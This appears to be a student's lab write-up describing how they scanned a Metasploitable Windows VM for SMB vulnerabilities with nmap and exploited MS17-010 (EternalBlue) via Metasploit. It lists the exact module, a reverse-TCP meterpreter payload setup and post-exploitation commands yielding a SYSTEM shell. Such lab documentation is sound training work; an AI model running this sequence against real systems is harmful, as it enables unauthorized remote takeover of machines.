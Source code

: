 # Eternal Blue

## Objective: To gain remote access, scan, and exploit SMB vulnerabilities with Nmap and Metasploit.

- I initiated the assignment by executing the **ifconfig** command on my Kali VM, identifying the machine's IP address as 10.0.2.6.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB1.jpg" alt="">
</p>

- I then proceeded with an nmap scan targeting the IP address to locate the metasploitable Windows machine. The results showed the machine's IP address as 10.0.2.8, and the open ports 139 and 445 indicated the running SMB service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB2.jpg" alt="">
</p>

- To leverage nse scripts, I ran **nmap -Pn -p139,445 --script=smbvuln-* 10.0.2.8**. The output highlighted the vulnerability **smb-vuln-ms17-010**, susceptible to remote code execution and classified as a high-risk factor.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB3.jpg" alt="">
</p>

- To proceed, I launched the Metasploit framework using the **msfconsole** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB4.jpg" alt="">
</p>

- Within Metasploit, I searched for the **eternalblue** exploit using **search eternalblue**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB5.jpg" alt="">
</p>

- I selected the **MS17-010 EternalBlue SMB Remote Windows** module with **use exploit/windows/smb/ms17_010_eternalblue**. By default, the PAYLOAD was set to **windows/x64/meterpreter/reverse_tcp**. Necessary adjustments were made to RHOSTS (10.0.2.8, Target IP), LHOST (10.0.2.6, Kali IP), and LPORT (4444, designated listening port).

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB6.jpg" alt="">
</p>

- Initiating the attack, I executed the **exploit** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB7.jpg" alt="">
</p>

- To confirm successful entry into the metasploitable VM, I ran **sysinfo**. Verification of the user-level access was achieved with the **getuid** command, revealing the access level as **SYSTEM** - the highest privilege on the machine.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB8.jpg" alt="">
</p>

- Lastly, to imprint my identity on the remote machine's terminal, I invoked the **shell** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB9.jpg" alt="">
</p>
